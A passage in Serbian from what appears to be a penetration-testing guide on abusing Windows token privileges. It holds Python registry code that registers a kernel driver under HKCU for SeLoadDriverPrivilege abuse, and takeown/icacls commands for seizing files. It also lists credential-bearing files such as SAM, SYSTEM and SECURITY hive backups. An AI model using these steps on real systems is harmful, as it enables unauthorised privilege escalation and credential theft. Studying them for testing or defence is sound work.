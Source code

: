 * `ImagePath`, što je putanja do binarnog fajla koji će se izvršiti
* `Type`, sa vrednošću `SERVICE_KERNEL_DRIVER` (`0x00000001`).

**Koraci koje treba pratiti:**

1. Pristupiti `HKCU` umesto `HKLM` zbog ograničenog pristupa pisanju.
2. Kreirati putanju `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName` unutar `HKCU`, gde `<RID>` predstavlja Relativni Identifikator trenutnog korisnika.
3. Postaviti `ImagePath` na putanju izvršenja binarnog fajla.
4. Dodeliti `Type` kao `SERVICE_KERNEL_DRIVER` (`0x00000001`).

```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```

Više načina za zloupotrebu ovlašćenja možete pronaći na [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

Ovo je slično **SeRestorePrivilege**. Njegova osnovna funkcija omogućava procesu da **preuzme vlasništvo nad objektom**, zaobilazeći zahtev za eksplicitnim diskrecionim pristupom pružanjem prava pristupa WRITE\_OWNER. Proces uključuje prvo obezbeđivanje vlasništva nad odgovarajućim registarskim ključem u svrhu pisanja, a zatim izmenu DACL-a radi omogućavanja operacija pisanja.

```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```

### SeDebugPrivilege
